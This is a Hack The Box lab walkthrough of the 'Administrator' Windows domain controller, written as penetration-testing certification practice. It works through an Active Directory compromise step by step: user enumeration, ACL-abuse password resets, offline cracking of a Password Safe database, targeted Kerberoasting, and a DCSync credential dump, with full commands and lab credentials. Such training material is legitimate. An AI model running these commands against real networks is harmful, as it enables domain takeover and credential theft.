# Administrator — Hack The Box (CPTS practice)

**Platform:** Hack The Box
**Difficulty:** 🟡 Medium
**OS:** Windows (Active Directory)
**Certification:** Extra practice for the CPTS (Certified Penetration Testing Specialist)
**Date completed:** 2026
**Techniques:** Nmap · `kerbrute` · BloodHound (chained ACL abuse) · Password reset (`net rpc password`) · FTP → **Password Safe** database (`.psafe3`) cracked offline · **Targeted Kerberoasting** (`targetedKerberoast.py`) via `GenericWrite` · **DCSync** (`secretsdump`) → pass-the-hash → SYSTEM
**Language:** English — [🇪🇸 Versión en español](./Administrator_Writeup_ES.md)

---

## Table of contents
1. [Reconnaissance](#1-reconnaissance)
2. [Enumeration — valid users and BloodHound](#2-enumeration--valid-users-and-bloodhound)
3. [Initial access — an ACL abuse chain](#3-initial-access--an-acl-abuse-chain)
4. [Getting a shell](#4-getting-a-shell)
   - [Privilege escalation — targeted Kerberoasting and DCSync](#privilege-escalation--targeted-kerberoasting-and-dcsync)
5. [Post-exploitation and flags](#5-post-exploitation-and-flags)
6. [Lessons learned](#6-lessons-learned)
7. [Tool & command glossary](#7-tool--command-glossary)
8. [Attack flow](#8-attack-flow)

---

## 1. Reconnaissance

```bash
ping -c 1 10.129.92.32
```

> 🛠️ **`ping`** — checks host availability via ICMP. A TTL of **127** → **Windows**.



Full TCP port scan:

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- -oN AllPorts 10.129.92.32
```

> 🛠️ **`nmap -sS -Pn -vvv --min-rate 5000 --open -n -p-`** — a full SYN scan of all 65535 ports: `-sS` (stealthy), `-Pn` (ignore ping status), `--min-rate 5000` (speeds up sending), `--open` (only open ports), `-n` (no DNS resolution).



```bash
enum-nmap AllPorts
```

> 🛠️ **`enum-nmap`** — a custom script that summarizes Nmap's output: IP, TTL, estimated OS, and a port list ready for the next `-p`.



> 💡 25 open ports, including **21 (FTP)** alongside the classic service set of an **Active Directory domain controller** (53, 88, 389, 445, 464, 636, 3268, 3269, 5985). An open FTP on a DC is uncommon and deserves special attention — it'll be key to initial access.

Version and default-script scan:

```bash
nmap -sS -Pn -sCV -T5 -n -p21,53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49668 -oN Ports 10.129.92.32
```

> 🛠️ **`-sCV`** combines `-sC` (Nmap's default scripts) with `-sV` (service version detection).



```
21/tcp  open  ftp   Microsoft ftpd
389/tcp open  ldap  Microsoft Windows Active Directory LDAP (Domain: administrator.htb, ...)
Service Info: Host: DC; OS: Windows
```

> 💡 Domain **`administrator.htb`**, domain controller **`DC`**.

We add the domain to `/etc/hosts`:



## 2. Enumeration — valid users and BloodHound

```bash
kerbrute userenum --dc 10.129.92.32 --domain administrator.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

> 🛠️ **`kerbrute userenum`** — abuses the KDC's differentiated response to an `AS-REQ` to enumerate valid Kerberos usernames, with no need for a correct password.



```
michael, benjamin, administrator, emily, olivia, ethan
```

### Collecting the permission graph with BloodHound

This box is solved by following, step by step, the **Active Directory relationship graph** — there's no single exploit, but a chain of permissions (ACLs) that needs to be discovered and abused repeatedly. With the domain credentials given at the start (`olivia:ichliebedich`), we collect that data:

```bash
bloodhound-python -u 'olivia' -p 'ichliebedich' -d administrator.htb -ns 10.129.92.32 -c All --zip
```

> 🛠️ **`bloodhound-python`** — the Linux BloodHound collector; dumps the domain's users, groups, ACLs, sessions, and trust relationships into JSON files.

```bash
bloodhound-start
```

> 🛠️ **`bloodhound-start`** — launches Neo4j (the graph database BloodHound uses) and the local web UI where the collected data is analyzed.

In the GUI, we look at what `olivia` can control:



```
olivia --[GenericAll]--> michael
```

## 3. Initial access — an ACL abuse chain

### What does `GenericAll` grant, and how is it abused?

**`GenericAll`** is the broadest possible ACL permission over an Active Directory object: full control, equivalent to ownership. Over a user account, this includes being able to **reset its password directly**, with no need to know the current one — unlike a normal password change, which requires the old password.

```bash
net rpc password "michael" "Arabot3105" -U "administrator.htb"/"olivia"%"ichliebedich" -S 10.129.92.32
```

> 🛠️ **`net rpc password <user> <new_password> -U <domain>/<user_with_permission>%<password>`** — a Samba utility that invokes the remote password-change RPC; with `GenericAll`/`User-Force-Change-Password` over the target account, it doesn't ask for the old password.



```bash
crackmapexec smb 10.129.92.32 -u michael -p 'Arabot3105'
```



We query BloodHound again, this time for `michael`:



```
michael --[ForceChangePassword]--> benjamin
```

> 💡 **`ForceChangePassword`** is a narrower extended right than `GenericAll`: it only allows forcing a password change on the target account, nothing else — but it's exactly what we need to continue the chain.

```bash
net rpc password "benjamin" "Arabot3105" -U "administrator.htb"/"michael"%"Arabot3105" -S 10.129.92.32
```



```bash
crackmapexec smb 10.129.92.32 -u benjamin -p 'Arabot3105'
```



### From a domain account to a credential file

With `benjamin`, we try the FTP service spotted during recon:

```bash
ftp 10.129.92.32
# benjamin / Arabot3105
ftp> get Backup.psafe3
```

> 🛠️ **`ftp`** — a command-line FTP client; here authenticated with `benjamin`'s domain credentials (the FTP service delegates authentication to Active Directory itself).


> 💡 **`.psafe3`** is the encrypted database format of **Password Safe**, an open-source password manager that uses 256-bit **Twofish** encryption. The entire contents are protected by a single **master password** — if that password is weak, the whole database falls.



## 4. Getting a shell

We extract the master password's hash and crack it offline:

```bash
pwsafe2john Backup.psafe3 > hash
```

> 🛠️ **`pwsafe2john`** — extracts a `.psafe3` file's master password hash in a format compatible with John the Ripper.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```




```
tekieromucho
```

We open the database with that master password using Password Safe's graphical client:

```bash
pwsafe Backup.psafe3
```





```
olivia:ichliebedich
alexander:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
emma:WwANQWnmJnGV07WQN8bMS7FMAbjNur
```



> 💡 A single poorly protected password database leaks the credentials of **four** different domain accounts at once — the kind of find that, in an ACL abuse chain, can jump several steps ahead all at once.

We validate the new credentials against WinRM:

```bash
crackmapexec winrm 10.129.92.32 -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```

> 🛠️ **`crackmapexec winrm`** — validates credentials against the WinRM service; the `(Pwn3d!)` marker indicates they're not just valid but confirm remote command execution too.



```bash
evil-winrm -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -i 10.129.92.32
```



`user.txt` confirmed on `emily`'s desktop — first flag.

> 🔒 The exact contents of `user.txt` aren't published in this writeup on purpose, even though the captures show it being read — see this repository's flag policy in its introduction.

## Privilege escalation — targeted Kerberoasting and DCSync

We go back to BloodHound, this time focused on `emily`:



```
emily --[GenericWrite]--> ethan
```

### What does `GenericWrite` grant, and why does it enable Kerberoasting?

**`GenericWrite`** allows modifying most of an object's attributes — short of `GenericAll`'s full control, but enough to write, for instance, an account's **`servicePrincipalName`** attribute. As seen on other boxes, any user account with an SPN attached becomes a **Kerberoasting** target: any authenticated domain user can request a service ticket (TGS) for it, encrypted with a key derived from its password.

**Targeted Kerberoasting** automates exactly this abuse: using `GenericWrite` over an account that normally has **no** SPN, it assigns one **temporarily**, requests the corresponding TGS, and removes it again — leaving the account in its original state, but with a crackable hash already in hand.

```bash
python3 targetedKerberoast.py -d administrator.htb -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' --dc-ip 10.129.92.32 -v
```

> 🛠️ **`targetedKerberoast.py`** ([ShutdownRepo](https://github.com/ShutdownRepo/targetedKerberoast)) — automates the entire cycle: adds a temporary SPN to every account the user has `GenericWrite`/`WriteProperty` over, requests its TGS, prints it in `$krb5tgs$` format, and removes the SPN it added.



```
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$...
```

We crack the TGS hash offline:

```bash
hashcat -m 13100 hash1 /usr/share/wordlists/rockyou.txt
```

> 🛠️ **`hashcat -m 13100`** — the specific mode for Kerberos 5 TGS-REP etype 23 hashes (the format produced by classic or targeted Kerberoasting).



```
limpbizkit
```

### The final link: replication rights (DCSync)

We query BloodHound again, this time for `ethan`:



```
ethan --[GetChanges, GetChangesAll]--> administrator.htb (domain object)
```

> 💡 **`GetChanges`** (`DS-Replication-Get-Changes`) and **`GetChangesAll`** (`DS-Replication-Get-Changes-All`) are the two extended rights a domain controller needs to grant another in order to replicate the directory between them. When a regular user account holds both over the domain object, it can use the replication protocol (**MS-DRSR**) to ask the real DC to "replicate" the credentials of **any account**, Administrator included — this is the **DCSync** attack, and it requires no code execution on the domain controller.

```bash
secretsdump.py administrator.htb/ethan:limpbizkit@10.129.92.32
```

> 🛠️ **`secretsdump.py`** (Impacket) — given the right credentials and replication rights, implements the DRSUAPI/MS-DRSR protocol to request a full `NTDS.dit` dump from the DC (every hash in the domain), with no disk access or code execution needed on the controller.



```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<NT hash>:::
```

> 🔒 Administrator's real NT hash isn't published in this writeup on purpose, so anyone practicing this same box still has to complete that step themselves — the exact command to obtain it is documented above.

We validate and use Administrator's hash:

```bash
crackmapexec winrm 10.129.92.32 -u administrator -H '<Administrator NT hash>'
```

